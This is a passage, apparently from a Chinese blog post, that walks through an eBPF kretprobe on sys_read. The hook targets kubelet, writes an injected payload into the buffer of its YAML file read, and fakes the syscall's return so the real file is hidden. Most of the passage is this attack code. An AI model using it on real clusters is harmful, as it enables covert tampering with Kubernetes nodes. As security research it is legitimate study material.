 该 helper 需要内核开启 `CONFIG_BPF_KPROBE_OVERRIDE` 选项，并且使用了该 helper 会导致被 hook 函数不会真正执行，我们 hook `read` 时需要在第二次 `read` 时返回 0 保证，不然 kubelet 第二次调用 `read` 时会读取真正的 yaml 文件内容。

完整的 hook `read` 返回代码如下：

1.  `SEC("kretprobe/__x64_sys_read")`
2.  `int kretprobe_sys_read(struct pt_regs *ctx)`
3.  `{`
4.      `char comm[TASK_COMM_LEN];`
5.  `​`
6.      `bpf_get_current_comm(&comm, sizeof(comm));`
7.  `​`
8.      `// executable is not kubelet, return`
9.      `if (memcmp(comm, TARGET_NAME, sizeof(TARGET_NAME)))`
10.          `return 0;`
11.  `​`
12.      `if (read_buf == 0)`
13.          `return 0;`
14.  `​`
15.      `if (written)`
16.      `{`
17.          `written = 0;`
18.          `bpf_override_return(ctx, 0);`
19.          `read_buf = 0;`
20.  `​`
21.          `return 0;`
22.      `}`
23.  `​`
24.      `bpf_probe_write_user(read_buf, payload, PAYLOAD_LEN);`
25.  `​`
26.      `bpf_override_return(ctx, PAYLOAD_LEN);`
27.  `​`
28.      `read_buf = 0;`
29.      `written = 1;`
30.  `​`
31.      `return 0;`
32.  `}`

最终效果：
